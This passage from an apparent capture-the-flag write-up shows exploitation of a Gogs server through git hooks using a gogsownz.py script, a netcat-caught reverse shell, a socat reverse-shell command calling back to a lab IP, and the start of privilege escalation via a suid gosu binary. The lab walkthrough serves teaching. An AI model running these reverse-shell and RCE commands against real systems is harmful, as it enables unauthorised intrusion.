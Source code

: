     [+] Removing Repo evidences
    [+] Repo removed successfully
    [i] Signed in as kaneki, is admin True
    [i] Current session cookie: 'acc4001337'
    [+] Got UserID 1
    [+] Repository created successfully
    [+] Setting Git hooks
    [+] Git hooks set successfully
    [+] Fetching last commit...
    [+] Got last commit
    [+] Triggering the RCE with a new commit
    [!] Can't commit on repo kaneki/gogstest



And shell connected back:



    root@kali# nc -lnvp 9001
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.101.
    Ncat: Connection from 10.10.10.101:40478.
    bash: cannot set terminal process group (31): Not a tty
    bash: no job control in this shell
    bash-4.4$ id
    id
    uid=1000(git) gid=1000(git) groups=1000(git)



Since socat is on the host, I'll re-exploit to get a `socat` reverse
shell, which provides a full tty, which I'll need:



    python3 gogsownz.py http://127.0.0.1:3000/ -v --creds 'aogiritest:test@aogiri123' --rce "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.18.0.200:9001" --cleanup --burp





    root@kali# socat file:`tty`,raw,echo=0 tcp-listen:9001
    3713ea5e4353:~/gogs-repositories/kaneki/gogstest.git$ id
    uid=1000(git) gid=1000(git) groups=1000(git)



Now I have a shell in the Gogs container as the user git.

## Privesc: Gogs git --\> root

In this container, there's a suid binary, `gosu`:



    3713ea5e4353:/$ ls -l /usr/sbin/gosu 
    -rws--x--x    1 root     root       1286720 May 24  2017 /usr/sbin/gosu
